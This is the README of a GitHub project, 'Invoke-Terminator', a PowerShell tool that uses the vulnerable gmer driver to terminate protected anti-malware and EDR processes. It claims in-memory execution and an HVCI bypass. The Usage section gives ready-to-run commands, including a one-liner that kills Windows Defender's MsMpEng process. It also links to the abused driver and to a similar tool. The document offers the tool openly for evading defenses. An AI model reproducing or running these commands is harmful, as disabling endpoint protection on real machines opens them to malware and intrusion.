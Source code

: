 # Invoke-Terminator


[![xiosec - Terminator](https://img.shields.io/static/v1?label=xiosec&message=Terminator&color=blue&logo=github)](https://github.com/xiosec/Terminator)
[![stars - Terminator](https://img.shields.io/github/stars/xiosec/Terminator?style=social)](https://github.com/xiosec/Terminator)
[![forks - Terminator](https://img.shields.io/github/forks/xiosec/Terminator?style=social)](https://github.com/xiosec/Terminator) [![GitHub release](https://img.shields.io/github/release/xiosec/Terminator?include_prereleases=&sort=semver)](https://github.com/xiosec/Terminator/releases/)
[![License](https://img.shields.io/badge/License-GPL-blue)](#license)
[![issues - Terminator](https://img.shields.io/github/issues/xiosec/Terminator)](https://github.com/xiosec/Terminator/issues)

Terminator is a powershell script that terminates protected processes such as [anti-malware](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-) and `EDRs` through the [gmer](http://www.gmer.net/) driver.

* in-memory
* HVCI bypass

# Usage

```powershell
<#
----------------------------
        Terminator

github : github.com/xiosec
twitter: twitter.com/xiosec
----------------------------

* Arguments
    * -ServiceName
    * -ProcName
    * -ProcId
    * -driverPath
    * -AutoKill
#>

Invoke-Terminator -ServiceName terminator -ProcName MsMpEng 
```
> inline
```powershell
powershell -c ". .\Invoke-Terminator.ps1; Invoke-Terminator -ProcName MsMpEng -AutoKill"
```
# Example
In this example, we kill the `MsMpEng` process, which is related to the `antimalware service`.
![MsMpEng](assets/MsMpEng.png)

# Links

[gmer64.sys](https://www.loldrivers.io/drivers/7ce8fb06-46eb-4f4f-90d5-5518a6561f15/)

[Blackout](https://github.com/ZeroMemoryEx/Blackout)

# License 

Released under GPL-3.0 by [@xiosec](github.com/xiosec)